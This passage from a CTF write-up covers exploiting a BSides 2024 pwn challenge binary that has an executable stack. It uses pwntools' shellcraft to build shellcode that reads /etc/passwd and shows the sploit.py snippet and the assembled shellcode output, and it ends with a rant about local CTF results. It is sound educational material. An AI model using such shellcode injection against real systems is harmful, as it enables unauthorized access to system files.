 Excellent, we can reach our shellcode! Let's try running something more exciting than a cyclic pattern! 

The context of the pwn binary is to read the flag from file from the filesystem (`flag.txt`). We will try to read `/etc/passwd`.

The [Shellcraft](https://docs.pwntools.com/en/stable/shellcraft.html) module from Pwntools contains functions for generating shellcode. For example, there is a [readfile](https://docs.pwntools.com/en/stable/shellcraft/amd64.html#pwnlib.shellcraft.amd64.linux.readfile) module we can use. We'll add it to our `sploit.py`:

```python
# shellcode = '' # shellcode placeholder
shellcode = asm(pwnlib.shellcraft.amd64.readfile("/etc/passwd", 2))
```

And run `sploit.py` again,

```c
~/D/W/b/pwn $ python3 sploit.py LOCAL
[*] '/home/kidd/Desktop/WORK/bsides24/pwn/classroom'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
[DEBUG] cpp -C -nostdinc -undef -P -I/home/kidd/.local/lib/python3.11/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        /* Save destination */
        push 2
        pop r8
        /* push b'/etc/passwd\x00' */
        push 0x1010101 ^ 0x647773
        xor dword ptr [rsp], 0x1010101
        mov rax, 0x7361702f6374652f
        push rax
        /* call open('rsp', 'O_RDONLY') */
        push 2 /* 2 */
        pop rax
        mov rdi, rsp
        xor esi, esi /* O_RDONLY */
        syscall
        /* Save file descriptor for later */
        mov rbx, rax
        /* call fstat('rax', 'rsp') */
        mov rdi, rax
        push 5 /* 5 */
        pop rax
        mov rsi, rsp
        syscall
        /* Get file size */
        add rsp, 48
        mov rdx, [rsp]
        /* call sendfile('r8', 'rbx', 0, 'rdx') */
        mov r10, rdx
        push 40 /* 0x28 */
```

[^Rant]: And ok, yeah, it was not a big event, nor was the CTF any larger. But only 3 solves? What's the play here? Everybody else is killing it out there in CTFs and IRL, and we are doing what exactly? Yes, there are teams from GR that are having success in global events, of course. But how are these teams seeded if in entry level events we are failing at the obvious? How is this not a problem, both for the scene and the security industry altogether?
